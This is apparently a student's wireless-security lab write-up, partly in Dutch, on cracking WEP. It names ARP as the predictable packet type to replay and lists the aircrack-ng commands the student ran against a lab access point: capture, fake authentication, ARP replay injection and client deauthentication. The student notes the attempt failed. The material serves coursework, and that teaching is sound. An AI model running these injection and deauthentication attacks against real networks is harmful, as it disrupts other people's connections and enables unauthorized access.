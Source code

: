 ```
about 2 seconds
```



## Part II

8. Now which packets are always the same size, occur automatically between connected PCs in order to make the IP protocol work (also on wired networks) and will be replyed upon by the AP with a packet of which we will know its content?

```
ARP
```







![image-20220324170011261](img/image-20220324170011261.png)



De commando's die ik heb gebruikt. (kleine sidenote, het lukte niet)

```
airodump-ng -c 5 --bssid 04:F0:21:1C:B4:D5 -w dump wlanMoni

aireplay-ng --fakeauth 6000 -o 1 -q 10 -a 04:F0:21:1C:B4:D5 -e MobanGr15 wlanAttack

aireplay-ng --fakeauth 6000 -o 1 -q 10 -a 04:F0:21:1C:B4:D5 -e MobanGr15 -h 00:0e:8e:6a:f5:b8 wlanAttack

aireplay-ng -3 -b 04:F0:21:1C:B4:D5 -h 00:0e:8e:6a:f5:b8 wlanAttack

aireplay-ng --deauth 5 -a 04:F0:21:1C:B4:D5 -c 00:0e:8e:6a:f5:b8 wlanAttack
```
